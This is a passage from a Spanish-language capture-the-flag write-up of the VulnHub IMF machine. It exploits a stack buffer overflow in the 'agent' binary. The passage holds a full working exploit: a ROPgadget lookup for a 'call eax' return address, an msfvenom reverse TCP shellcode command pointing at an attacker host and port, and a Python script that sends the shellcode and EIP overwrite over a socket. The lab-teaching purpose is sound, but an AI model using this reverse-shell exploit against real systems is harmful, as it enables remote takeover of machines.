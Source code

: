 O mediante ROPgadegt

```bash
ROPgadget --binary ./agent | grep 'call eax'
```

![alt text](/assets/img/writeups/vulnhub/imf1/image-36.png)

Tenemos que usarlo en bytecode little endian.

```plaintext
eip = b"\x63\x85\x04\x08"  # <- 0x08048563 (call eax)
```

Sabiendo esto vamos a necesitar un payload shellcode para que se ejecute en la dirección de retorno.

```bash
msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.100.210 LPORT=9999 -f python -b "\x00\x0a\x0d"
```
- -b "\x00\x0a\x0d" evita caracteres nulos, newline y carriage return que romperían el exploit.

Ahora creamos el exploit.

```bash
cat << EOF > exploit.py
import socket

client = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
client.connect(('127.0.0.1', 7788))
client.recv(1024)

client.send(b"48093572\n")
client.recv(1024)
client.send(b"3\n")
client.recv(1024)

buf =  b""
buf += b"\xba\x97\x99\x0b\x4c\xdb\xc5\xd9\x74\x24\xf4\x5e"
buf += b"\x33\xc9\xb1\x12\x31\x56\x12\x03\x56\x12\x83\x79"
buf += b"\x65\xe9\xb9\xb4\x4d\x19\xa2\xe5\x32\xb5\x4f\x0b"
buf += b"\x3c\xd8\x20\x6d\xf3\x9b\xd2\x28\xbb\xa3\x19\x4a"
buf += b"\xf2\xa2\x58\x22\xc5\xfd\xff\x60\xad\xff\xff\xa3"
buf += b"\x21\x89\xe1\x1b\x5b\xd9\xb0\x08\x17\xda\xbb\x4f"
buf += b"\x9a\x5d\xe9\xe7\x4b\x71\x7d\x9f\xfb\xa2\xae\x3d"
buf += b"\x95\x35\x53\x93\x36\xcf\x75\xa3\xb2\x02\xf5"

# NOP sled + EIP overwrite
buf += b"\x90" * (168 - len(buf)) + b"\x63\x85\x04\x08\n"

client.send(buf)

print("\n=== PAYLOAD SENT. CHECK YOUR HANDLER ===")

EOF
```
